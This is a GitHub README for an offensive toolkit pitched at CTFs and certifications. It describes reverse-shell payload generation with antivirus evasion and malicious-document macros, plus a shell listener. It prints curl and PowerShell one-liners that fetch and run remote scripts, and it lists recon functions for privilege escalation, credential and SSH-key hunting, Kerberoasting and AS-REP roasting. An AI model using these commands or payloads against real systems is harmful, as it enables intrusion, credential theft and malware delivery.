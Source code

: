 # CTF support tools

> ⚠️ under development

A set of tools that can be used individually or by web interface to help resolve ctfs and pass certifications

![image](https://github.com/user-attachments/assets/047294b3-7c16-4c26-9a19-7dfd61fef423)


- toolpy to download tools
- Shellpy to generate payloads for reverse shells, optionally obfuscated to evade antivirus and in macro format for malicious documents
  (Shellpy can be found here --> https://github.com/KermitPurple96/Shellpy)
- shell.py to receive a reverse shell
- recon.ps1 to assist in the windows privilege escalation process
- recon.sh to assist in the linux privilege escalation process

## Install
```bash
git clone https://github.com/KermitPurple96/CTF-toolkit
cd CTF-toolkit
python3 -m venv .venv
source .venv/bin/activate
pip install pwn flask netifaces watchdog
flask run --host=0.0.0.0 --port=5002 --no-debugger --no-reload
```
## Usage

1. toolpy
```bash
toolpy -d rubeus
```
![image](https://github.com/user-attachments/assets/a9d69157-f2e7-4659-8885-06eb56d6e8b6)

2. [Shellpy](https://github.com/KermitPurple96/Shellpy)
```bash
shellpy <ip> <port> -powercat --obfuscate --macro
```
![shell3](https://github.com/user-attachments/assets/9bb1efe9-bcaa-49b8-b99b-b865b758eefe)
3. Shell listener
```bash
python3 shell.py 443
```
![image](https://github.com/user-attachments/assets/67107b56-050a-4de0-ac84-9be2bed95be6)

3. Load the script on Target Machine

For Linux
```bash
. <(curl 10.10.10.10/recon.sh)
```

For Windows
```powershell
iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/recon.ps1'))
```

Example funtions on windows:
```
PS> iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/recon.ps1'))

     ___  __    ___   ___
    /___\/ _\  / __\ / _ \  _ __ ___  ___ ___  _ __
   //  //\ \  / /   / /_)/ | '__/ _ \/ __/ _ \| '_ \
  / \_// _\ \/ /___/ ___/  | | |  __/ (_| (_) | | | |
  \___/  \__/\____/\/      |_|  \___|\___\___/|_| |_|

========================================================
                                            DannyDB@~>

[*] Auxiliary Tools:
    - aux.upload [file]               : Upload files to HTTP server via POST
    - aux.download [file]             : Perform GET to retrieve files

[*] Auxiliary Recon:
    - recon.dateScan                  : Files modified between two dates
    - recon.dateLast                  : Files modified less than 15 minutes ago
    - recon.portscan <host> [1-1024]  : Perform port scanning
    - recon.pingscan 10.10.10.        : Perform ping scan of /24 subnet
    - recon.pspy                      : Similar to pspy script
    - recon.servInfo                  : Information abaut a server

[*] General Recon:
    - recon.sys                       : System information
    - recon.users                     : User information
    - recon.programs                  : Program information
    - recon.protections               : Protection information
    - recon.process                   : Process information
    - recon.networks                  : Network information
    - recon.acl                       : File permission information

[*] Privesc Recon:
    - priv.installElev                : AlwaysInstallElevated privilege
    - priv.serv.dir                   : Service directory privilege
    - priv.serv.reg                   : Service registry privilege
    - priv.serv.unq                   : Unquoted service privilege
    - priv.cred.files                 : Known credential files privilege
    - priv.cred.history               : Credential history privilege
    - priv.owned.files                : File owner privilege
    - priv.search.fname               : Credential in file name privilege
    - priv.search.fcontent            : Credential in file content privilege
    - priv.search.sshkeys             : SSH file privilege
    - priv.search.register            : Credential in registry privilege
    - priv.search.events              : Credential in events (Admin.) privilege
    - priv.autorun                    : Scheduled tasks privilege

[*] AD Recon:
    - ad.psremote                     : Remote PowerShell privilege
    - ad.computers                    : Domain computers privilege
    - ad.users                        : Domain users privilege
    - ad.user <user>                  : Information about a user
    - ad.listusers                    : List common names for bruteforce
    - ad.groups                       : Domain groups privilege
    - ad.group <group>                : Information about a group
    - ad.spn                          : Kerberoasting accounts
    - ad.asrep                        : AS-REP Roasting users privilege

```

